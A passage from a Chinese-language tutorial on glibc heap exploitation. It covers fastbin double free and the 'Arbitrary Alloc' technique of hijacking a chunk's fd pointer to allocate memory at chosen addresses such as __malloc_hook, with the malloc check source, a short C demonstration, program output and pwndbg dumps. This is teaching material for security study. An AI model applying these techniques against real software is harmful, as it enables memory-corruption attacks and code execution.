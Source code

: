 对应的`_int_malloc`检查如下
```c
if (__builtin_expect (fastbin_index (chunksize (victim)) != idx, 0))
    {
      errstr = "malloc(): memory corruption (fast)";
    errout:
      malloc_printerr (check_action, errstr, chunk2mem (victim));
      return NULL;
}
```

### 效果

通过 fastbin double free 我们可以使用多个指针控制同一个堆块，这可以用于篡改一些堆块中的关键数据域。
如果更进一步修改 fd 指针，则能够实现任意地址分配堆块的效果 (首先要通过`_int_malloc`验证)，这就相当于任意地址写任意值的效果。

## Arbitrary Alloc

**关键**：任意地址写的本质也是由于 fastbin 链表的特性：当前 chunk 的 fd 指针指向下一个 chunk。

该技术的核心点在于
- 目标地址 size 域合法，这个 size 域是构造的，还是本身存在的都无妨
- **劫持** fastbin 链表中 chunk 的 fd 指针，把 fd 指针指向我们想要分配任意地址，从而实现泄露或控制该地址的一些关键数据，如`__malloc_hook`。

只要满足目标地址存在合法的 size，我们就可以把 chunk 分配到任意的可写内存中，比如 bss、heap、data、stack 等等。

```
fprintf(stderr, "Now we change the fd at the top of free list!\n");
*a = *a - 0x20;
fprintf(stderr, "Now we can get the chunk at %p forever !\n", a);
fprintf(stderr, "1st malloc(8): %p\n", malloc(8));
fprintf(stderr, "2nd malloc(8): %p\n", malloc(8));
fprintf(stderr, "3rd malloc(8): %p\n", malloc(8));

Now we change the fd at the top of free list!
Now we can get the chunk at 0x405010 forever !
1st malloc(8): 0x405010
2nd malloc(8): 0x405010
3rd malloc(8): 0x405010

pwndbg> fastbins
fastbins
0x20: 0x405000 ◂— 0x405000
0x30: 0x0
pwndbg> x/20gx 0x405000
0x405000:       0x0000000000000000      0x0000000000000021
0x405010:       0x0000000000405000      0x0000000000000000
0x405020:       0x0000000000000000      0x0000000000000021
0x405030:       0x0000000000405000      0x0000000000000000
0x405040:       0x0000000000000000      0x0000000000000021
0x405050:       0x0000000000000000      0x0000000000000000
0x405060:       0x0000000000000000      0x0000000000020fa1
```
